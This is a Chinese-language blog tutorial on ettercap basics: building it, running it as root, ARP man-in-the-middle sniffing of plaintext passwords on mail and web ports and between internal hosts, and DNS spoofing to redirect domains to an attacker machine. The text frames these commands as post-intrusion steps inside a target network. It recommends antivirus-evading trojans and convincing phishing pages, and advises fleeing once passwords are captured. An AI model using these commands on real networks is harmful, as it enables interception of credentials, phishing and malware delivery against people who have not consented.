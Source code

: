 [TOC]

# [宝刀未老之 ettercap 基础使用 一](https://klionsec.github.io/2017/10/25/ettercap/)

0x01 关于ettercap

```
ettercap 确实已经非常老了,也确实是那个时代的经典,而且差不多三四年这个项目也都没再更新过了对于一些防护并不是特别好的内网,依然非常实用,千万不要觉得工具老就没有它的应用场地,那样你就真的错了,如果真是这样,就不会有这么多的二次深度开发了大家可能也发现了,像这类的工具我基本都是在模拟真实的生产机器环境上编译安装的具体原因大家想必都很清楚,像这类基于二层的arp嗅探是没法直接在远程做的,毕竟不是直接处在目标的vpn内网中socks代理再牛逼,它也只是个基于端口的四层代理,并不是vpn,所以,是没法直接在本地嗅远程的arp的,至于GRE隧道,咱们抽空再另说话不多讲,直奔今天的主题,ettercap基础使用,注意,此次仅仅是基础使用
```



0x02 开启本地的路由转发

```
# echo 1 > /proc/sys/net/ipv4/ip_forward# cat /proc/sys/net/ipv4/ip_forward
```



0x03 基础演示环境

```
CentOS release 6.9 (Final)  x86-64 ip: 192.168.3.4  接口名称: eth2  ettercap所在机器win2008r2 			   ip: 192.168.3.23 win7cn				   ip: 192.168.3.8
```





0x04 暂以centos 6.8 x86_64为例,编译安装 ettercap 0.8.2

```
# yum groupinstall "Development tools" -y# yum install cmake ncurses ncurses-devel openssl openssl-devel gcc-c++ flex bison gtk2 gtk2-devel -y# tar xf ettercap-0.8.2.tar.gz# cd ettercap-0.8.2/bundled_deps/# ls
```



```
# cd check/# tar xf check-0.9.14.tar.gz# cd check-0.9.14# ./configure && make && make install# echo $? && cd ../../
# cd curl/# tar xf curl-7.41.0.tar.gz# cd curl-7.41.0# ./configure && make && make install# echo $? && cd ../../
# cd libnet/# tar xf libnet-1.1.6.tar.gz# cd libnet-1.1.6# ./configure && make && make install# echo $? && cd ../../
# cd luajit/# tar xf LuaJIT-2.0.3.tar.gz# cd LuaJIT-2.0.3# make && make install# echo $? && cd ../../
# tar xf libpcap-1.5.3.tar.gz# cd libpcap-1.5.3# ./configure && make && make install# echo $? && cd ../../
# cat INSTALL# mkdir build# cd build/# cmake ../# make && make install# echo $? && cd
```

0x05 ettercap安装后的默认配置文件位置如下,修改配置文件,让其以root权限身份运行,一般嗅探都是在提权成功以后的动作,这样能嗅到的东西会更多一些

```
# cd /etc/ettercap/# vi /etc/ettercap/etter.conf ec_uid = 0                 ec_gid = 0
```



0x06 ettercap默认规则 [filter] 目录

```
# ll /usr/local/share/ettercap/
```



![img](../../../../#ImageAssets/ettercap-filter.png)

0x07 装完以后先简单测试下ettercap是否真正已经可用,尝试嗅下3.8到3.23之间的明文数据

```
# ettercap -Tqi eth2 -M arp:remote /192.168.3.8/ /192.168.3.23/
```



![img](../../../../#ImageAssets/ettercap-rest.png)

0x08 ettercap 选项功能简要说明

```
-M 进行中间人攻击,可自行指定用什么类型的中间人,如,arp,dhcp,icmp...-o 不嗅探数据,单单只进行中间人欺骗-T 建议使用文本模式,一般实战中基本是不会有图形界面给你的-q 安静模式,减少输出-D 把ettercap作为一个系统服务来运行,意思就是让它在后台跑,比较方便-w 把监听的数据写到指定的pcap文件中 -L 将所有流量写到指定的日志文件中-l 被动记录-i 指定要用于嗅探的网卡接口-F 导入自定义数据包过滤规则文件-P 导入插件,增强中间人攻击-p 不启用网卡混杂模式,只嗅当前机器的各类明文数据
```



0x09 关于ettercap的其它更多详情,请自行参考工具自身帮助

```
# man ettercap# ettercap -P list  查看ettercap内置的所有插件
```



![img](../../../../#ImageAssets/ettercap-local-plugins.png)

0x10 只嗅探本机指定端口上的明文数据,如,各类web管理登陆密码[80,8080],如果是当前机器是个邮件服务器,无疑是极好的,起码不用再自己苦逼的到处搜集密码了,直接守住这儿慢慢抓密码就好了,在某些内网中通过这种方式来搜集密码,还是非常可行的

```
# ettercap -i eth2 -T -q -p -l local //25,80,110,143,8080 # etterlog local.eci
```



![img](../../../../#ImageAssets/ettercap-local-sniff.png)
![img](../../../../#ImageAssets/ettercap-local-sniff_res.png)

0x011 只嗅探指定机器之间的明文通信数据

嗅探这个ip段范围和网关之间的通信数据,其实说白点就是想嗅探目标机器在一些公网站点上登陆的明文账号密码

```
# ettercap -T -q -i eth2  -L webadmin -M arp:remote /192.168.3.1/ /192.168.3.2-25/    # etterlog webadmin.eci
```



![img](../../../../#ImageAssets/arp_sniffer_common.png)

嗅探3.220-251和3.3这台机器之间的所有明文通信数据,主要想快速拿到内网服务器的账号密码,所以,你实际挑内网机器的时候,最好有针对性,一旦拿到密码立马就跑路,这工具动静儿太大

```
# ettercap -Tq -i eth2  -L mail -M arp:remote /192.168.3.3/ /192.168.3.220-251/# etterlog mail.eci
```



在目标内网中利用dns欺骗来针对性钓鱼挂马,马要免杀,页面也逼真,否则很容易被发现

```
# vi /etc/ettercap/etter.dns  # microsoft sucks ;)找到这行  # redirect it to www.linux.org    demlution.com       A   192.168.3.23    www.demlution.com   A   192.168.3.23# ettercap -Tq -i eth2 -P dns_spoof  -M arp /192.168.3.1/ /192.168.3.3-100/
```



![img](../../../../#ImageAssets/ettercap-dns2_res.png)
![img](../../../../#ImageAssets/ettercap-dns.png)
![img](../../../../#ImageAssets/ettercap-dns2.png)

0x12 当然,ettercap绝非远远就这么点儿功用,来日方长,关于定制规则脚本以及其它的各类高级应用,考虑篇幅,我们后续再慢慢说

0x13 提前先来了解几个 ettercap 的简单规则脚本语法

```
search(where,what) 从字符串where中查找what，若找到则返回trueregex(where,regex) 从字符串where中匹配正则表达式regex，若找到则返回truereplace(what,with) 把字符串what替换成字符串withlog(what,where)    把字符串what记录到where文件中msg(message) 	   在屏幕上显示出字符串messageexit() 		   退出
```



待续ing…

 [#ETTERCAP](https://klionsec.github.io/tags/ettercap/)